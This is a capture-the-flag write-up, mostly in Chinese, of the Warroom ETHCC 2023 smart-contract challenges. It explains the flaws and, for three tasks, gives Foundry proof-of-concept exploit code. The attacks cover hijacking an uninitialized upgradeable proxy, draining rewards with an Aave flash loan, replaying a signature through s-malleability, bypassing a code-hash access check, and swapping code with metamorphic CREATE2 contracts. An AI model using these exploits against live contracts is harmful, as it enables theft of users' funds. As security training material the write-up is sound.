 ## Warroom ETHCC 2023

### Task 1 - Proxy capture 15 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/proxy): 

知識點:
-  合約未初始化
-  可更新合約 upgradeable contract

解題:
- 要先初始化拿到 owner
- 把自己加入白名單
- 提出合約上的 balance
- 更新合約到新合約, 其他人就無法初始化

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/proxy/Proxy.t.sol)
```
// attacker can call initialize
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call{value: 0.1 ether}(
            abi.encodeWithSignature("initialize(address)", address(0))
        );
        assertTrue(validResponse);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("owner()")
        );
        assertTrue(validResponse);
        owner = abi.decode(returnedData, (address));
        assertEq(owner, attacker);

// cannot update without whitelisting
        vm.prank(attacker);
        vm.expectRevert(bytes("!whitelisted"));
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("upgradeTo(address)", address(0))
        );

        // whitelist owner
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("whitelistUser(address)", attacker)
        );
        
        // cannot update without withdrawing funds
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("withdraw(uint256)", 2)
        );

        // upgrade proxy
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("upgradeTo(address)", address(takeOwnership))
        );
        assertTrue(validResponse);
```


### Task 2 - Flash loan 25 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/test/flashloan): 

知識點:
-  Flashloan

解題:
- 只要totalLoan大於10k 就可以removeLoan.
- 透過aave  flashloan 會自己還款, 不需要另外寫 transfer

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/flashloan/Loan.t.sol)
```
        AttackLoan attackLoan = new AttackLoan(address(loan));
        deal(address(DAI), address(attackLoan), minFlashLoan / 1e3);

        vm.prank(attacker);
        iPool.flashLoanSimple(address(attackLoan), address(DAI), minFlashLoan, "", 0);

---
Attack contract
function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initiator,
        bytes calldata params
    ) external override returns (bool) {
        require(msg.sender == address(POOL), "!pool");
        IERC20(asset).approve(address(POOL), amount + premium);

        console.log("Sending to loan contract");  
IERC20(asset).transfer(address(loan), amount + premium);
				
        console.log("Calling flash loan on loan contract");
        POOL.flashLoanSimple(address(loan), asset, amount, "", 0);

        // take all rewards
        console.log("Taking all rewards");
        console.log("Initator: %s", initiator);
        uint256 rewardBalance = IERC20(loan.rewardToken()).balanceOf(address(loan));
        loan.removeLoan(loan.rewardToken(), rewardBalance);
        console.log("Sending rewards to initiator: %d", rewardBalance);
        IERC20(loan.rewardToken()).transfer(initiator, rewardBalance);
        // withdraw send amount
        console.log("Withdraw asset from loan contract");
        loan.removeLoan(asset, amount);

        console.log("Should have enough to repay flash loan");
        require(IERC20(asset).balanceOf(address(this)) >= amount + premium, "!payout");
        // @note he funds will be automatically pulled at the conclusion of your operation.
        return true;
    }
}
```

### Task 3 - Signature malleability 30 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/signature): 

知識點:
-  Signature malleability 


解題:
- 透過 flip s技巧產生不同signature 但會得到相同 signer. 
- 修補: 使用 openzeppelin's library to prevent malleability attacks and recover to zero issues 和加上 nonce

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/signature/WhitelistedRewards.t.sol)
```
function testReuseSignature() public {
        uint256 whitelistedAmount = amount / 2;
        bytes32 digest = keccak256(abi.encodePacked(whitelistedAmount));
        uint256 pk = 22;
        address signer = vm.addr(pk);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, digest);

        vm.prank(signer);
        rewards.claim(whitelisted, whitelistedAmount, v, r, s);
        assertEq(token.balanceOf(whitelisted), whitelistedAmount);

        // verify that the same signature cannot be used again
        vm.expectRevert(bytes("used"));
        rewards.claim(whitelisted, whitelistedAmount, v, r, s);

        // The following is math magic to invert the signature and create a valid one
        // flip s
        bytes32 s2 = bytes32(uint256(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141) - uint256(s));

        // invert v
        uint8 v2;
        require(v == 27 || v == 28, "invalid v");
        v2 = v == 27 ? 28 : 27;

        vm.prank(user);
        rewards.claim(user, whitelistedAmount, v2, r, s2);
        assertEq(token.balanceOf(user), whitelistedAmount);
    }
```

### Task 4 - Access Control 35 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/accesscontrol): 


解題:
- 這個任務包含兩個合約，RewardsBox和AccessControl。AccessControl是一個特殊的存取控制器，並且提供了添加所有者的方式。預設的所有者是vitalik.eth和一個隨機生成的地址。即使是部署者也無法添加新的所有者。RewardsBox非常簡單，並且有一個claim(address accessController, uint256 amount)函數，該函數會檢查所提供的accessController，以查看msg.sender是否被授權，如果是，則處理amount的獎勵代幣。
- RewardsBox通過檢查您所提供控制器的代碼哈希與RewardsBox初始化時內置的代碼哈希是否相符，來強制要求您提供正確的AccessControl合約作為控制器。
- 這裡的問題在於，在以太坊虛擬機(EVM)中部署合約時，可以在構造函數中執行任意程式碼，而該程式碼後來不會反映在已部署的合約程式碼中。因此，攻擊者可以部署一個新的合約，在構造函數中將自己添加到擁有者映射(mapping)中，然後將部署的程式碼設置為正確的 AccessControl 合約

要透過accessController這個檢查, 因為沒有限制來源所以可以自己建立一個accessController.

用一樣的code部署但是要把ownerr加上自己.

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/accesscontrol/AccessControl.t.sol)

### Bonus Task - Metamorphic 10 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/metamorphic): 


解題:
- [Deploy Different Contracts at the Same Address ](https://solidity-by-example.org/hacks/deploy-different-contracts-same-address/)- Metamorphic 合約 可更新 用CREATE2 搭配CREATE 原地換Code
- salt一樣, 但是bytecode 可以不一樣~  部屬出來的地址一樣.


[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/metamorphic/MultiplerRug.t.sol)
